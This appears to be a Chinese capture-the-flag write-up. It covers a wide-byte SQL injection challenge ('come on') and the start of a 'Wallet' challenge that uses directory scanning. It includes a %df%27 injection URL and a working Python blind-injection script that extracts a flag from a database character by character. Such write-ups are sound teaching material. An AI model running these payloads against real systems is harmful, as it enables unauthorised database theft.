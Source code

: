 ### **come on**

题目本身一看就懂了，但是感觉自己做就是做不出来，脑洞不够，而且宽字节注入真的也是好久不做了！

首先输入1查询一下，发现很多股票就出来了。然后构造各种乱七八糟的发现根本没什么回显，那么就是盲注了，然后我们看一下宽字节的构造`http://218.2.197.235:23733/index.php?key=1%df%27||1=1%23` 然后发现有回显，那么我们就可以构造或后面的1=1盲注爆出他字段。

```
 import requests
import random
import hashlib

s = requests.Session()

def get_data(url):
    r = s.get(url)
    return r.text

def get_flag():
    url='http://218.2.197.235:23733/index.php?key=123%df%27||'
    flag = ""

    payload = "(select(right(left((select(flag)from(flag)),{}),1)))=binary({})%23"

    for j in range(1,33):
        for i in range(20,125):
            r = get_data(url + payload.format(str(j), hex(i)))

            if "002265" in r:
                flag +=chr(i)
                print flag
                break

get_flag()
```

### **Wallet**

首先不知道要干啥，他说cookie被保护了，然而并不知道机制是什么，然后看公告发现说压缩包密码是弱口令，然后就找压缩包呗！就是用工具扫描一下目录得到结果。我用的是dirfuzz-master，可以给分享一下

[dirfuzz-master](http://download.csdn.net/my)
